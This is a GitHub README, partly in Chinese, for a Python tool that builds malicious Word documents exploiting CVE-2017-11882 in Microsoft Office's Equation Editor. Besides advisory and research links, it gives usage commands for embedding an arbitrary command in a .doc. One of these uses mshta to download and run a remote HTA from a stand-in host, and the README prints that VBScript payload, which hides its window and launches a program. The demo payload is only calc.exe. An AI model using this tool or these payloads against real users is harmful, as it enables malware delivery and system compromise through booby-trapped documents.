 # CVE-2017-11882

43b 原脚本来自于 https://github.com/embedi/CVE-2017-11882

109b 原脚本来自于 https://github.com/unamer/CVE-2017-11882/ （膜一波，现在unamer的代码已经可以执行shellcode了~）


CVE-2017-11882:
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/

MITRE CVE-2017-11882:
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-11882

Research:
https://embedi.com/blog/skeleton-closet-ms-office-vulnerability-you-didnt-know-about

Patch analysis:
https://0patch.blogspot.ru/2017/11/did-microsoft-just-manually-patch-their.html

DEMO PoC exploitation:
https://www.youtube.com/watch?v=LNFG0lktXQI&lc=z23qixrixtveyb2be04t1aokgz10ymfjvfkfx1coc3qhrk0h00410


## Usage


```python
python Command_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o test.doc
```

use mshta
```python
python Command_CVE-2017-11882.py -c "mshta http://site.com/abc" -o test.doc
```
abc
```html
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "calc.exe"
self.close
</script>
<body>
demo
</body>
</HEAD> 
</HTML> 

```

>43b命令长度不能超过43 bytes，109b命令长度不能超过109 bytes

# Sample exploit for CVE-2017-11882 (starting calc.exe as payload)

`example` folder holds an .rtf file which exploits CVE-2017-11882 vulnerability and runs calculator in the system.
